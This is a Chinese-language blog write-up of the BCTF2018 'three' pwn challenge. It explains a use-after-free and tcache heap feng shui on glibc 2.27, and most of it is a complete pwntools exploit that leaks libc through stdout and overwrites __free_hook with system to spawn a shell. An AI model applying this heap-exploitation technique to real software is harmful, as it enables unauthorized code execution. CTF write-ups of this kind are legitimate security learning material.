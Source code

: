 ```yaml
---
title: 'BCTF2018:three'
date: 2018-12-05 16:26:08
tags: pwn fengshui
---
```

fengshui思路很重要...
<!--more-->
# strat
[附件][1]
简洁的一道题..主要考利用...咸鱼的我调了一个晚上加上办个下午没调出来
(后来反证自己走进了死胡同..)
最后改变风水思路...

# Analysis
* 主要功能有add,free,edit
* 限制是最多3个chunk可以被执行操作
* 可以选择清除不清除`array`上的指针
```python
➜  three checksec three 
[*] '/home/n132/Desktop/three/three'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```
用的libc是2.27有tcache
漏洞点是uaf
# 利用
#也不太好讲..主要自己调一遍坑都跳一遍就差不多有点思路了

* 利用uaf控制tcache改写`stdout`#具体为啥在babytecache那篇博客中写过
* 继而改写free_hook为system
* free /bin/sh

fengshui:
```
* 一开始我傻逼的地尝试了控制0x70结尾的地方...做了半天做不出来
* 因为在改写完`stdout`后将会失去一个可以操作的指针...free不掉
* 两个指针要实现tcache atk 就要满足两者存在over lap 才可以改掉size
* 显然0x70不如0x50来的灵活...当时没用0x50是因为0x50的那个指针也是不能free的..
```

* 利用uaf控制`0x50`结尾的地址（目的是方便改size）
* 改`0x60`的size为`0x91`
* free 满tcache 获得一个`unsortedbin`
* `0x50`的tcache改到`0x91`上
* `partial write`指向`stdout`
* 改`stdout`去泄露libc
* free 0x60通过0x50改size和fd指针到`__free_hook`为`system`
* edit 2为`/bin/sh`
* free 2



# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("choice:",str(c))
def add(c="\n"):
	cmd(1)
	p.sendafter("content:",c)
def edit(idx,data):
	cmd(2)
	p.sendlineafter("idx:",str(idx))
	p.sendafter("content:",data)
def free(idx,mode=0):
	cmd(3)
	p.sendlineafter("idx:",str(idx))
	if (mode==0):
		p.sendlineafter("(y/n):",'n')
	else:
		p.sendlineafter("(y/n):",'y')


p=process("./three",env={'LD_PRELOAD':'./libc.so.6'})
libc=ELF("./libc.so.6")
context.log_level='debug'
#init
for x in range(3):
	add(p64(0x21)*8);
free(2,1)
free(1,1)
free(0,1)
#
add()
add()
free(1,1)
free(0)
edit(0,'\x50')
add()

add(p64(0)+p64(0x91))

free(1,1)

for x in range(6):
	free(0)
edit(2,p64(0)+p64(0x51))
free(0)
edit(2,p64(0)+p64(0x91))
free(0,1)

edit(2,p64(0)+p64(0x51)+"\x60\x07\xdd")
add()
add(p64(0xfbad1800)+p64(0)*3+'\x00')

p.read(8)
base=u64(p.read(8))-(0x7ffff7dd18b0-0x00007ffff79e4000)
log.warning(hex(base))
libc.address=base
free(0,1)
edit(2,p64(0)+p64(0x41)+p64(libc.symbols['__free_hook']))
add()
free(0,1)
add(p64(libc.symbols['system']))
edit(2,"/bin/sh\x00")
cmd(3)
p.sendlineafter("idx:",'2')
p.sendline("clear")
p.interactive("nier>>>")
```


[1]:https://github.com/n132/Watermalon/tree/master/Bctf_2018/three